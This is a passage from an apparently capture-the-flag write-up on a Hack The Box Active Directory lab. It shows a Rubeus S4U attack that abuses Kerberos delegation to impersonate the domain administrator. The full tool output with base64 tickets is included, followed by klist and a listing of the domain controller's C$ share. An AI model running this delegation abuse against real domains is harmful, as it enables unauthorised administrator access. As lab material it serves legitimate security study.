N+g/RD6rRfkYq3888CDADSNG09LR3LnGDfH0oLdVyDTwwAWmtftjwRpWmfrifz4mllf/cTldvbDklWVYsIRtNQOgOyz/d+BovXE1K6I6E5+iYZ2FP/op0LNwZOGdM3OhJXPzVqyDlri8E9rcwGOatu3nVzW+nluUV6LqnAxlymlnRP57vt4AmuO7XuHyo5oLCo4HTMIHQoAMCAQCigcgEgcV9gcIwgb+ggbwwgbkwgbagGzAZoAMCARehEgQQXxvoH6DB0OaL4VVWMsuogaEOGwxQQUlOVEVSUy5IVEKiEjAQoAMCAQGhCTAHGwVibGFrZaMHAwUAQOEAAKURGA8yMDIzMDkxMTE0MDQzNFqmERgPMjAyMzA5MTIwMDA0MzRapxEYDzIwMjMwOTE4MTQwNDM0WqgOGwxQQUlOVEVSUy5IVEKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHBhaW50ZXJzLmh0Yg== /impersonateuser:administrator /domain:painters.htb /msdsspn:CIFS/dc.painters.htb /dc:dc.painters.htb /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: S4U

[*] Action: S4U

[*] Building S4U2self request for: 'blake@PAINTERS.HTB'
[*] Using domain controller: dc.painters.htb (192.168.110.55)
[*] Sending S4U2self request to 192.168.110.55:88
[+] S4U2self success!
[*] Got a TGS for 'administrator' to 'blake@PAINTERS.HTB'
[*] base64(ticket.kirbi):

      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
      CTAHGwVibGFrZQ==

[*] Impersonating user 'administrator' to target SPN 'CIFS/dc.painters.htb'
[*] Building S4U2proxy request for service: 'CIFS/dc.painters.htb'
[*] Using domain controller: dc.painters.htb (192.168.110.55)
[*] Sending S4U2proxy request to domain controller 192.168.110.55:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'CIFS/dc.painters.htb':

      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
[+] Ticket successfully imported!
PS C:\temp>
```

We can check the existence of kerberos tickets now:

```
Current LogonId is 0:0x3e7

Cached Tickets: (1)

#0>     Client: administrator @ PAINTERS.HTB
        Server: CIFS/dc.painters.htb @ PAINTERS.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 9/11/2023 15:07:44 (local)
        End Time:   9/12/2023 1:04:34 (local)
        Renew Time: 9/18/2023 15:04:34 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
PS C:\temp>
```

And now we can surf the machine:

```
PS C:\temp> dir \\dc.painters.htb\c$
dir \\dc.painters.htb\c$


    Directory: \\dc.painters.htb\c$


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        08/05/2021     09:15                PerfLogs
d-r---        24/05/2023     07:53                Program Files
d-----        08/05/2021     10:34                Program Files (x86)
d-r---        30/12/2021     21:35                Users
d-----        11/09/2023     11:02                Windows


PS C:\temp>
```

&nbsp;

&nbsp;